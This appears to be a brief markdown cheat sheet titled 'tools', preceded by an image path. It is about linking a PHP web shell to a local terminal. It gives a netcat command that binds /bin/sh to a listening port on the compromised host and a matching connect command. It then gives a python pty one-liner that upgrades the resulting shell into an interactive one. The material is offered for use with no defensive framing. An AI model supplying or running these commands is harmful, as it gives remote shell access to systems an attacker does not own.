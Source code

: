 # tools

Connecting your local shell with a php shell via netcat:

On PHP Shell (where 31337 is any port you choose):
nc -lp 31337 -e /bin/sh

On your Shell (where domain is either the .com or the IP):
nc domain 31337

Turn a netcat shell into a real-looking shell
python -c "import pty; pty.spawn('/bin/bash');"